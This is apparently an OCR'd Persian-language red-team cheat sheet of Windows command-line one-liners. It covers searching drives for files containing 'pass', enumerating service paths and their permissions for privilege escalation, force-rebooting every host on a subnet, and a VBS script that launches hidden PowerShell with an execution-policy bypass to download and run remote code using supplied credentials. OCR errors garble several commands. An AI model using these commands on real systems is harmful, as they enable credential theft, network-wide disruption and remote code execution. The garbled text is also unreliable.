 ### جست و جو کلیه مسیر های برای یافتن فایلی هایی که در آن ها PASS است و نمایش جزییات آن فایل

```text
forfi1es /P c:\temp /s /m pass -c "cmd /c echo @isdir @fdate @ftime
@relpath @path @fsize"
```

### شبیه سازی دامین مخرب \(کاربردی برای تست IDS\)

```text
# Run packet capture on attack domain to receive callout
# domains.txt should contain known malicious domains
for /L %i in (0,1,100) do (for /F %n in (domains.txt) do nslookup %n
attack domain NUL 2 &1 & ping -n 5 127.0.0.1 NUL 2 &1
```

### عملیات IE web looper \(ایجاد کننده ترافیک\)

```text
for /L %C in (1,1,5000) do @for %U in (www.yahoo.com www.pastebin.com
www.paypal.com www.craigslist.org www.google.com) do start /b iexplore %U &
ping -n 6 localhost & taskkill /F /IM iexplore.exe
```

### دریافت دسترسی سرویس های اجرایی

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full | find /i
"pathname" I find /i /v "system32"') do @echo %a
c:\windows\temp\3afd4ga.tmp
for /f eol = " delims = " %a in (c:\windows\temp\3afd4ga.tmp) do cmd.exe
/c icacls ''%a''
```

### راه اندازی مجدد در حال چرخش \(جایگذاری /R با /S برای خاموش نمودن\):

```text
for /L %i in (2,1,254) do shutdown /r /m \\1.1.1.%i /f /t 0 /c "Reboot
message"
```

### ایجاد shell با استفاده از vbs \(نیاز به اطلاعات هویتی\)

```text
# Create .vbs script with the following
Set shell wscript.createobject("wscript.shell")
Shell.run "runas /user: user " & """" &
C:\Windows\System32\WindowsPowershell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Nonlnteractive -ep bjpass -nop -c \" & """" & "IEX ((New-
Object Net.WEbClieil':).downloadstring(' url '))\" & """" & """"
wscript.sleep (100)
shell.Sendkeys " password " & "{ENTER}"
```
